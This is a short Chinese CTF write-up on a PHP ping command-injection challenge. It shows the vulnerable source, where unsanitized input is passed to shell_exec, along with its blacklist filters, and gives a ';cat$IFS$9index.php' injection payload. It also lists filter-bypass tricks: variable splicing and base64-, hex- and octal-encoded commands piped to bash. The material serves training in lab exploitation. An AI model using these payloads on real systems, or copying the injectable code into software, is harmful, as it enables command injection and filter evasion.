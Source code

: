 先查看index.php`/?ip=127.0.0.1;cat$IFS$9index.php`

得到index.php源码

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
      //$/?*<>'"\()[]{}\x00-\x1f	
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}

?>
```

[正则相关知识：](https://www.cnblogs.com/kenshinobiy/p/4443600.html)

```
一个点‘.’可以代表所有的单一字符

*紧跟的一个字符的zero or more

字符‘|’相当于OR 操作："(b│cd)ef": 匹配含有 "bef" 或者 "cdef"的字符串;

中括号[xxx]括住的内容只匹配一个单一的字符:"^[a-zA-Z]": 匹配以字母开头的字符串;"[a-d]": 匹配'a' 到'd'的单个字符 (和"a│b│c│d" 还有 "[abcd]"效果一样);

```



4. ==flag被过滤，绕过方法：==

```
拼接绕过:a=l;b=s;$a$b
编码绕过：
base64：
echo “Y2F0IC9mbGFn”|base64-d|bash
==>cat /flag
hex：
echo “636174202f666c6167” | xxd -r -p|bash
==>cat /flag
oct：
$(printf “\154\163”)
==>ls
```
